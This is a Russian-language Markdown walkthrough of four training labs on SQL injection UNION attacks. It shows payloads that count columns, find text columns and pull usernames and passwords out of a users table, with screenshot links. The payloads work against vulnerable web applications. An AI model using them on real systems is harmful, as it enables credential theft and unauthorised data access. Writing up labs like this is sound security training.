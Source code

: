  h1 Lab: SQL injection UNION attack, determining the number of columns returned by the query 
 
 Изменяем category, чтобы добавить дополнительный столбец, содержащий нулевое значение:'+UNION+SELECT+NULL,NULL--
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_1_1.PNG)
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_1_2.PNG)
 
 Lab: SQL injection UNION attack, finding a column containing text
 
 Меняем значение category '+UNION+SELECT+NULL-- , Происходит ошибка:
![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_2_1.PNG)
Меняем значение category на '+UNION+SELECT+NULL,NULL,NULL-- 
![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_2_2.PNG)
Работает)
![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_2_3.PNG)
 
 Lab: SQL injection UNION attack, retrieving data from other tables
 
 Убеждаемся в том, что запрос возвращает два столбца, оба из которых содержат текст, используя полезную нагрузку , как в следующем в параметре категории: '+UNION+SELECT+'abc','def'-- :
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_3_1.PNG)
 Используйте следующую полезную нагрузку для извлечения содержимого usersтаблицы:'+UNION+SELECT+username,+password+FROM+users-- :
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_3_2.PNG)
 Проверяем
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_3_3.PNG)
 Работает)
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_3_4.PNG)
 
 Lab: SQL injection UNION attack, retrieving multiple values in a single column
 
 Убеждаемся, что запрос возвращает два столбца, только один из которых содержит текст, используя полезную нагрузку, подобную следующей в categoryпараметре:'+UNION+SELECT+NULL,'abc'-- :
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_4_1.PNG)
 Используйте следующую полезную нагрузку для извлечения содержимого usersтаблицы:'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_4_2.PNG)
 Проверяем
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_4_3.PNG)
 Работает)
 ![Image alt](https://github.com/Svizy/Prack-2020/blob/master/sql_union/lab_sql_un_4_4.PNG)
 
